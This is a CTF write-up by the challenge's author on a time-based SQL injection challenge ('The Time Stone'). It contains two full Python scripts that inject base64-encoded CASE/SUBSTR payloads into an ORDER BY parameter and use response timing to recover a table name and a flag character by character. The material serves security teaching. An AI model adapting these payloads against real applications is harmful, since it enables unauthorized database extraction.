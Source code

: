 ```yaml
---
categories: [ShunyaCTF, The Time Stone]
tags: [web exploitation, Time-Based SQL Injection]     # TAG names should always be lowercase
author: Darshan
description: Web exploitation category challenge created by me for ShunyaCTF 2k24
image:
    path: /assets/img/Banners/the-time-stone.jpg
pin: False
---
```


# Solution for The Time Stone

## Challenge Overview

In this challenge, we exploited a time-based SQL injection vulnerability to extract the name of a dynamically generated table and retrieve the secret value stored within it. The challenge demonstrates the importance of secure coding practices and validates the effectiveness of SQL injection as an attack vector when inputs are not properly sanitized.

## Vulnerability Explained

Time-based SQL injection occurs when an attacker can influence the execution time of a database query to infer data. This type of injection is useful when direct data retrieval is not possible, but the application’s behavior can be observed based on the time it takes to execute certain queries.

The vulnerability in this challenge allowed attackers to:
1. Identify the name of a table with a specific prefix (`secret_`).
2. Extract the content of a column (in this case, the `text` column containing the secret flag) from the identified table.

The exploitation relied on crafting SQL queries that deliberately caused a delay (using a hypothetical `zhopi()` function) when a specific condition was met. By measuring the response time, the attacker could deduce whether the condition was true or false, thus extracting data character by character.

## Application Walkthrough

The following screenshots showcase the vulnerable application in action:

![homepage](/assets/img/ShunyaCTF/TimeStone/homepage.png)

1. The home page provides information about what a time stone is and what are the key facts about the time stone.
2. After hovering mouse pointer to the GIF image, that gif image is clickable and redirecting us to new directory named `/time`.
3. When I visit the `/time` directory, there are bunch of Marvel movies posters and there ratings. There are no input boxes or other stuffs just a gallary of Marvel movies. As shown in the image below:  
![mainpage](/assets/img/ShunyaCTF/TimeStone/mainpage.png)

1. So I decided to review the source code to check if I can find something and boom there is some Javascript code running that seems suspicious, see the screenshot below:
![sourcecode](/assets/img/ShunyaCTF/TimeStone/sourcecode.png)

2. There are two different api calls are happening first one is `/api/goodforyou` and another one is `/api/movies`.
3. First one is just for diversion we don't need that but the another one has something interesting, Application is sending a POST request to that endpoint with a json data `sequence: 'aWQgZGVzYw=='`.
4. It's a base64 data so let's decode it. `aWQgZGVzYw==` -> `id desc`
5. `id desc` it looks like the SQL/SQLite syntax. Now we understand that this challenge is about the SQL injection and as the name suggests it's a time stone so the SQL injection should be time based. Let's create a script to exploit this vulnerablity.
6. But before that to read the flag we must know the table name where the flag is stored so we create 2 different script one for table name retrival and another for flag retrival. Script are mentioned below.  

## Solution Script Walkthrough

### 1. Finding the Table Name

The first part of the solution involved finding the dynamically generated table name. The `sqlite_master` table was queried to locate tables with names starting with `secret`. By leveraging the `SUBSTR` function, each character of the table name was extracted iteratively.

```python
# Script to find the table name
import requests
import base64
import json
import time

url = '<url for the chall>'

secret = list()
table_name = 'secret'
chars = 'abcdefghijklmnopqrstuvwxyz_'
sleep_time = 1

while True:
    found = False
    for i in chars:
        payload = f"(CASE WHEN (SELECT SUBSTR(name,{len(table_name)+1},1) FROM sqlite_master WHERE type='table' AND name LIKE 'secret%')='{i}' THEN id + zhopi({sleep_time}) ELSE rating END) DESC"

        encoded_payload = base64.b64encode(payload.encode()).decode('utf-8')

        data = {
            'sequence': encoded_payload
        }
        start_time = time.time()
        r = requests.post(
            url + '/api/movies',
            data=json.dumps(data),
            headers={'Content-Type': 'application/json'}
        )
        end_time = time.time()

        elapsed_time = end_time - start_time

        if elapsed_time >= sleep_time:
            table_name += i
            found = True
            print(f"Found character: {i}, updated table name: {table_name}")
            break
        else:
            print(f"\rTrying for: {i} at index: {len(table_name)}, elapsed time: {elapsed_time}", end="")

    if not found:
        print("No matching character found.")
        break

print(f"Final table name: {table_name}")
```

### 2. Extracting the Secret Value

After identifying the table name, the second script was used to extract the secret value. Similar logic was applied, but this time, the `text` column of the identified table was queried.

```python
# Script to find the value from the table
import requests
import base64
import json
import time

url = '<url for the chall>'

flag = ''
chars = 'abcdefghijklmnopqrstuvwxyz0123456789'
sleep_time = 1

while True:
    found = False
    for i in chars:
        payload = f"(CASE WHEN (SELECT SUBSTR(text,{len(flag)+1},1) FROM secret_oezxsbhh_text WHERE id=1)='{i}' THEN id + zhopi({sleep_time}) ELSE rating END) DESC"

        encoded_payload = base64.b64encode(payload.encode()).decode('utf-8')

        data = {
            'sequence': encoded_payload
        }
        start_time = time.time()
        r = requests.post(
            url + '/api/movies',
            data=json.dumps(data),
            headers={'Content-Type': 'application/json'}
        )
        end_time = time.time()

        elapsed_time = end_time - start_time

        if elapsed_time >= sleep_time:
            flag += i
            found = True
            print(f"\nFound character: {i}, updated flag: {flag}")
            break
        else:
            print(f"\rTrying for: {i} at index: {len(flag)}, elapsed time: {elapsed_time}", end="")

    if not found:
        print("\nNo matching character found.")
        break

print(f"\nFinal flag: {flag}")
```

## How to Use the Solution Script

1. Update the `url` variable with the challenge URL.
2. Run the first script to find the table name.
   - Ensure the server is running and accessible.
   - The script will output the discovered table name.
3. Update the second script with the identified table name.
   - Replace `secret_oezxsbhh_text` with the discovered table name.
4. Run the second script to extract the secret value (flag).
   - The script will iteratively reveal the flag character by character.

## Conclusion

This challenge highlighted the importance of mitigating SQL injection vulnerabilities by:
- Validating and sanitizing user inputs.
- Using parameterized queries to prevent attackers from injecting malicious SQL.
- Disabling potentially harmful database functions or queries.

Understanding and exploiting time-based SQL injection requires patience and precision, making it an effective learning exercise for aspiring security professionals.

*Thank you for reading!! ;)*

